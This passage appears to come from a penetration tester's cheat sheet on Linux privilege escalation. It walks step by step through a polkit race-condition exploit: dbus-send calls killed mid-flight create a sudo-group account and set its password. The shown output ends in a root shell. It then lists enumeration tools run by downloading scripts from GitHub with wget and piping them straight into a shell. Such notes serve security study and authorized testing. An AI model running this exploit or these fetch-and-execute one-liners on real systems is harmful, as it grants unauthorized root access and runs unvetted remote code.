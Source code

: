 ```
$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:snovvcrash string:snovvcrash int32:1 & sleep 0.005s; kill $!
[1] 16405
$
[1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:snovvcrash string:snovvcrash int32:1
$ id snovvcrash
uid=1003(snovvcrash) gid=1003(snovvcrash) groups=1003(snovvcrash),27(sudo)
```

Then set a password for it, sudo into a privilege shell and you are root:

```
$ openssl passwd -5 'N3V3RF34RI15H3R3!'
$5$a/AGYekwlZrxQMTH$lrcXNqyEZhg6V6Rk2kqxwKtAQ5mb3cip6T1XjOgcoP0
$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1003 org.freedesk
top.Accounts.User.SetPassword string:'$5$a/AGYekwlZrxQMTH$lrcXNqyEZhg6V6Rk2kqxwKtAQ5mb3cip6T1XjOgcoP0' string:HelloWorld & sleep 0.005s; kill $!
[1] 16540
$
[1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1003 org.freedesktop.Accounts.User.SetPassword string:'$5$a/AGYekwlZrxQMTH$lrcXNqyEZhg6V6Rk2kqxwKtAQ5mb3cip6T1XjOgcoP0' string:HelloWorld
$ su snovvcrash
$ sudo -i
[sudo] password for snovvcrash:
 # id
uid=0(root) gid=0(root) groups=0(root)
```



### Tools


#### LinEnum

* [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

```
$ bash <(wget -qO- https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) -t -e /dev/shm/ -r out.txt
```


#### linux-smart-enumeration

* [https://github.com/diego-treitos/linux-smart-enumeration/](https://github.com/diego-treitos/linux-smart-enumeration/)

```
$ sh <(wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh -qO-) -i | tee /dev/shm/out.txt
```
